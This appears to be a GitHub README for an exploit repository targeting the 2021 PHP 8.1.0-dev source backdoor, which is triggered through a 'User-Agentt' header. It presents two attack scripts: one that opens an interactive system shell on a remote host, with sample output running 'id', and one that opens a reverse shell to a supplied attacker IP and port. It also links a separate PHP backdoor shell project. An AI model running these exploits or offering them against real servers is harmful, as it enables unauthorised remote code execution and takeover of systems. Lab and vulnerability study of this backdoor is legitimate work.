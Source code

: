 # Also
https://github.com/22XploiterCrew-Team/Gel4y-Mini-Shell-Backdoor/blob/1.x.x/README.md

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![docs/logo_php81.png](docs/logo_php81.png "docs/logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

_Read full article: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/_


* * * 

## POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.Find it on [Exploit DB](https://www.exploit-db.com/exploits/49933).    

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- **Vulnerability references**:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the host url:
http://a.b.c.d

Interactive shell is opened on http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

* * * 

## Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```

![docs/revshell-script.png](docs/revshell-script.png "docs/revshell-script.png")

Be Curious, Learning is Life ! :smiley:
